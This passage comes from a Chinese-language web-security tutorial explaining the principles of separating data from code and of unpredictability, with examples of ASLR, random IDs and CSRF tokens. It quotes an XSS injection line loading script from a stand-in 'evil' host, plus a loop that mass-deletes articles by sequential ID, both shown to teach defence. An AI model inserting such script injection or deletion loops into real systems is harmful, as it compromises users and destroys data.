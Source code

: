 {% highlight html %}
<script src=http://evil></script>
{% endhighlight %}
用户数据就被注入到代码片段中。解析这段脚本并执行的过程，是由浏览器来完成的 -- 浏览器将用户数据里的script标签当做代码来解释——这显然不是程序开发者的本意。

根据数据与代码分离原则，在这里应该对用户数据片段$var进行安全处理，可以使用过滤、编码等手段，把可能造成代码混淆的用户数据清理掉，具体到这个案例中，就是针对<、>等符号做处理。

有的朋友可能会问了：我这里就是要执行一个script标签，要弹出一段文字，比如：“你
好！”，那怎么办呢？

在这种情况下，数据与代码的情况就发生了变化，根据数据与代码分离原则，我们就应该重写代码片段：
{% highlight html %}
<html>
  <head>test</head>
  <body>
    <script>
      alert("$var1");
    </script>
  </body>
</html>
{% endhighlight %}
在这种情况下，script标签也变成了代码片段的一部分，用户数据只有$var1 能够控制，从而杜绝了安全问题的发生。

### 4. 不可预测性原则
前面介绍的几条原则：Secure By Default，是时刻要牢记的总则；纵深防御，是要更全面、更正确地看待问题；数据与代码分离，是从漏洞成因上看问题；接下来要讲的“不可预测性”原则，则是`从克服攻击方法的角度看问题`。

微软的 Windows 系统用户多年来深受缓冲区溢出之苦，因此微软在Windows 的新版本中增加了许多对抗缓冲区溢出等内存攻击的功能。微软无法要求运行在系统中的软件没有漏洞，因此它采取的做法是让漏洞的攻击方法失效。比如，使用DEP 来保证堆栈不可执行，使用ASLR让进程的栈基址随机变化，从而使攻击程序无法准确地猜测到内存地址，大大提高了攻击的门槛。经过实践检验，证明微软的这个思路确实是有效的——即使无法修复code，但是如果能够使得攻击的方法无效，那么也可以算是成功的防御。

微软使用的ASLR 技术，在较新版本的Linux 内核中也支持。在ASLR 的控制下，一个程序每次启动时，其进程的栈基址都不相同，具有一定的随机性，对于攻击者来说，这就是“不可预测性”。

**不可预测性（Unpredictable），能有效地对抗基于篡改、伪造的攻击**

假设一个内容管理系统中的文章序号，是按照数字升序排列的，比如id=1000, id=1002, id=1003, ... 这样的顺序，使得攻击者能够很方便地遍历出系统中的所有文章编号：找到一个整数，依次递增即可。如果攻击者想要批量删除这些文章，写个简单的脚本：
{% highlight java %}
for (i=0;i<100000;i++){
  Delete(url+"?id="+i);
}
{% endhighlight %}
就可以很方便地达到目的。但是如果该内容管理系统使用了“不可预测性”原则，将id的值变得不可预测，会产生什么结果呢？id=asldfjaefsadlf, id=adsfalkennffxc, id=poerjfweknfd……

id 的值变得完全不可预测了，攻击者再想批量删除文章，只能通过爬虫把所有的页面id全部抓取下来，再一一进行分析，从而提高了攻击的门槛。

不可预测性原则，可以巧妙地用在一些敏感数据上。比如在CSRF 的防御技术中，通常会使用一个token 来进行有效防御。这个token 能成功防御CSRF，就是因为攻击者在实施CSRF攻击的过程中，是无法提前预知这个token值的，因此要求token 足够复杂时，不能被攻击者猜测到。

不可预测性的实现往往需要用到加密算法、随机数算法、哈希算法，好好使用这条原则，在设计安全方案时往往会事半功倍。



